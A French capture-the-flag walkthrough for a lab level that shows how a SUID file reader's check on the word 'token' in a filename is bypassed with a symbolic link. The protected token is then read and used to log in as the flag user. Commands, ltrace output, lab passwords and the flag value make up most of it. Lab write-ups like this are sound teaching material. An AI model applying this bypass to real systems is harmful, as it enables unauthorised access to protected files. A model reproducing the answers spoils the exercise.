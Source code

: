 # Level08

Connectez-vous en tant que `level08`.

    $ ssh 192.168.1.124 -p 4242 -l level08
    level08@192.168.1.124's password: fiumuikeil55xe9cu4dood66h
    
 ---

Un exécutable `SUID` et un fichier de token se trouvent dans le répertoire personnel.

        $ ls -l
        au total 16
        -rwsr-s---+ 1 flag08 level08 8617 5 mars 2016 level08
        -rw------- 1 flag08 flag08 26 mars 5 2016 token
        $ ./level08
        ./level08 [fichier à lire]
        $ ./level08 token
        You may not access 'token'
        $ cat token
        cat : token: Permission denied

Il semble que le fichier de token ne puisse pas être lu ni par `./level08` ni par `cat`.

Utilisez `ltrace` pour intercepter les appels de bibliothèque dynamiques et les appels système exécutés par le programme.

```gdb
$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                       = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                   = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

La fonction `strstr` localise une sous-chaîne `needle` dans la chaîne `haystack`.

On peut en déduire que si le fichier transmis a une chaîne de token dans le nom, il se ferme.

Faire un lien symbolique sans token dans un nom de fichier.

        $ ln -s /home/user/level08/token /tmp/link

Exécutez le binaire avec le lien symbolique et obtenez le mot de passe pour vous connecter à « flag08 ».

        $ ./level08 /tmp/link
        quif5eloekouj29ke0vouxean

Connectez-vous en tant que `flag08` et obtenez le flag.

        $ su flag08
        Password:
        Don't forget to launch getflag !
        $ getflag
        Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
